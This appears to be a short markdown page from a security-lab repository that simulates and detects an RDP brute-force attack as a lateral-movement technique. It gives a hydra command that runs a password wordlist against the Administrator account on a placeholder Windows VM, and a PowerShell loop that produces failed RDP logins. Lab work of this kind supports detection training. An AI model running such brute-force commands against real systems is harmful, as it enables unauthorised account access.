 # 🛡️ Scenario 2: Lateral Movement via RDP Brute Force

## 🎯 Objective

Simulate and detect an RDP brute-force attack using stolen credentials—a common lateral movement technique by threat actors.

---

## 🧪 Attack Simulation

### ✅ From Kali Linux (Attacker):
```bash
hydra -t 4 -V -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_VM_IP>

```
                        or
for ($i = 0; $i -lt 5; $i++) {
    cmdkey /add:127.0.0.1 /user:fakeuser /pass:wrongpass
    mstsc /v:127.0.0.1
}
